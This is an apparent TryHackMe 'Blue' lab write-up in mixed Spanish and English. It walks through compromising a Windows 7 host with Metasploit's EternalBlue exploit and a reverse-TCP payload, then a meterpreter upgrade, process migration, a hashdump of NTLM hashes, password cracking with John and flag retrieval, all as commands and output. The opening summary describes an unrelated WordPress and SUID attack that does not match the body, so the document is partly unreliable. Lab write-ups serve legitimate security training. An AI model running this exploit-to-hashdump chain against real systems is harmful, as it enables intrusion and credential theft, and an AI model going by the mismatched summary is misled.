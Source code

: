 # Blue — Writeup

**Fecha:** 5-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontró un WordPress vulnerable, se obtuvieron credenciales por fuerza bruta, se subió un reverse shell editando la plantilla 404, se consiguió shell como www-data, se mejoró a TTY interactiva y se explotó /usr/bin/find con SUID para elevar a root y leer las flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation

**Shell to Meterpreter**
```bash
 meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
 msf post(multi/manage/shell_to_meterpreter) > run
		{...}
 msf post(multi/manage/shell_to_meterpreter) > sessions -l
Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)
  2			meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              $IP -> $IP ($IP)

 msf post(multi/manage/shell_to_meterpreter) > sessions 2
 meterpreter >
```

**Migrate Shell**
```bash
meterpreter > ps
Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 716   616   services.exe    x64   0        NT AUTHORITY\SYSTEM       C:\Windows\system32\serv
                                                                      ices.exe
meterpreter > migrate 716
[*] Migrating from 704 to 716...
[*] Migration completed successfully.
```
**Comment:** Migramos la shell a un proceso mas estable.

## Hash
**Getting Hash**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
**Cracking**
```bash
	john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED         (?)     
1g 0:00:00:01 DONE (2025-10-10 15:29) 0.9174g/s 9358Kp/s 9358Kc/s 9358KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

## Flags
**Flag 1**
```bash
meterpreter > cd /
meterpreter > cat flag1.txt
```

**Flag 2**
```bash
meterpreter > cd /Windows/system32/config
meterpreter > cat flag2.txt
```

**Flag 3**
```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > cat flag3.txt
```
